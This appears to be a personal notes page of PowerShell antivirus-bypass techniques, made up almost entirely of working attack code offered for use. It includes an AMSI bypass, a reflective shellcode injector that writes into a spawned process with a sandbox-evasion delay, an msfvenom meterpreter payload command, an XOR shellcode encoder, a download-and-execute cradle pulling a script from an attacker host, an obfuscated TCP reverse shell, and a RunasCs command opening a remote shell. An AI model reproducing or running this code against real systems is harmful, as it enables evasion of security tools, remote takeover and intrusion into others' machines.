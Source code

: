 ```yaml
---
creation date: April 6th 2023
last modified date: April 6th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Powershell AV bypasses]]  
___

## Description:  


**Reflective Injector**
ReflectiveInjector.ps1 PowerShell. Need to add XOR shellcode to line 34 ($buf = 0xEA,0x5E,0x95...). change line 35 if you change the xor key.
```
foreach($type in [Ref].Assembly.GetTypes()) {if ($type.Name -like "*iUtils") {$aType=$type}}
foreach($field in $aType.GetFields('NonPublic,Static')) {if ($field.Name -like "*Context") {$cntxt=$field}}
[IntPtr]$ptr=$cntxt.GetValue($null)
[Int32[]]$buf=@(0)
[System.Runtime.InteropServices.Marshal]::Copy($buf,0,$ptr,1)

function LookupFunc {
    Param ($moduleName, $functionName)
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq 'GetProcAddress') {$tmp+=$_}}
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
        [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
    return $type.CreateType()
}

$starttime = Get-Date -Displayhint Time
Start-sleep -s 5
$finishtime = Get-Date -Displayhint Time
if ( $finishtime -le $starttime.addseconds(4.5) ) { exit }

###
# edits go here
$sacproc = "C:\Windows\System32\upnpcont.exe"
#[Byte[]] $buf =  0xEA,0x5E,0x95...
for ($abc = 0; $abc -lt $buf.Count; $abc++) { $buf[$abc] = $buf[$abc] -bxor 22}
###

$proc = Start-Process $sacproc -PassThru -WindowStyle Hidden
$procid = $proc.Id

$hprocess = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll OpenProcess), (getDelegateType @([UInt32], [bool], [UInt32])([IntPtr]))).Invoke(0x001F0FFF, $false, $procid)
$addr= [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAllocEx), (getDelegateType @([IntPtr], [IntPtr], [UInt32], [UInt32], [UInt32])([IntPtr]))).Invoke($hprocess, [IntPtr]::Zero, 0x1000, 0x3000, 0x40)
[Int32]$lpNumberOfBytesWritten = 0
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WriteProcessMemory), (getDelegateType @([IntPtr], [IntPtr], [Byte[]], [UInt32], [UInt32].MakeByRefType())([bool]))).Invoke($hprocess, $addr, $buf, $buf.length, [ref]$lpNumberOfBytesWritten) 
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateRemoteThread), (getDelegateType @([IntPtr], [IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr])([IntPtr]))).Invoke($hprocess,[IntPtr]::Zero,0,$addr,[IntPtr]::Zero,0,[IntPtr]::Zero)
```
Generate a payload:
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.128 LPORT=443 -f ps1
```
Powershell XOR shell (`pwsh` on kali will drop you to a powershell and can run the script)
```
# Edit these:
#[Byte[]] $buf = 0xfc,0xe8,0x8f...
$xor_key = 22

$buffer_line = '[Byte[]] $buf =  '

for ($def = 0; $def -lt $buf.Count; $def++) {
	$buf[$def] = $buf[$def] -bxor $xor_key
	$y = [System.BitConverter]::ToString($buf[$def]);
	$buffer_line += '0x' + $y
	if ($def -ne ($buf.Count - 1)) {
		$buffer_line += ','
	}
}

$decrypt_block = 'for ($abc = 0; $abc -lt $buf.Count; $abc++) { $buf[$abc] = $buf[$abc] -bxor ' + $xor_key + '}'

Write-Output $buffer_line
Write-Output $decrypt_block
```
Script that runs on victim
```
foreach($type in [Ref].Assembly.GetTypes()) {if ($type.Name -like "*iUtils") {$aType=$type}}
foreach($field in $aType.GetFields('NonPublic,Static')) {if ($field.Name -like "*Context") {$cntxt=$field}}
[IntPtr]$ptr=$cntxt.GetValue($null)
[Int32[]]$buf=@(0)
[System.Runtime.InteropServices.Marshal]::Copy($buf,0,$ptr,1)
iex(new-object net.webclient).downloadstring("http://10.10.14.10/ReflectiveInjector.ps1")
```

make sure to host the ReflectiveInjector on port 80 and set up a Metasploit handler on 443

**Run a process as a different user (with creds)**
[RunasCs](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1)
```
Invoke-RunasCs -Username snovvcrash -Password 'Passw0rd!' -Domain megacorp.local -Command powershell.exe -Remote 10.10.13.37:1337
```


**ASMI bypass**
```
while ($true) {$px = "c0","a8","38","1";$p = ($px | ForEach { [convert]::ToInt32($_,16) }) -join '.';$w = "GET /index.html HTTP/1.1`r`nHost: $p`r`nMozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0`r`nAccept: text/html`r`n`r`n";$s = [System.Text.ASCIIEncoding];[byte[]]$b = 0..65535|%{0};$x = "n-eiorvsxpk5";Set-alias $x ($x[$true-10] + ($x[[byte]("0x" + "FF") - 265]) + $x[[byte]("0x" + "9a") - 158]);$y = New-Object System.Net.Sockets.TCPClient($p,80);$z = $y.GetStream();$d = $s::UTF8.GetBytes($w);$z.Write($d, 0, $d.Length);$t = (n-eiorvsxpk5 whoami) + "$ ";while(($l = $z.Read($b, 0, $b.Length)) -ne 0){;$v = (New-Object -TypeName $s).GetString($b,0, $l);$d = $s::UTF8.GetBytes((n-eiorvsxpk5 $v 2>&1 | Out-String )) + $s::UTF8.GetBytes($t);$z.Write($d, 0, $d.Length);}$y.Close();Start-Sleep -Seconds 5}
```
You have to change your IP address to hex (`$px = "c0","a8","38","1"`add 0 in front if needed) and change your port number (`($p,80)`)

**Obfuscated PowerShell Reverse Shells**
[gh0x0st](https://github.com/gh0x0st/Get-ReverseShell)

**Run a new PowerShell command in background**
```
start-job -scriptblock { C:\TeamCity\buildAgent\work\74c2f03019966b3e\hello_world.ps1 }

Start-Process powershell.exe -ArgumentList "-file C:\TeamCity\buildAgent\work\74c2f03019966b3e\hello_world.ps1"

```
Can sometimes avoid detection by not having your process run a new job as a child



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: April 6th 2023 (09:32 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
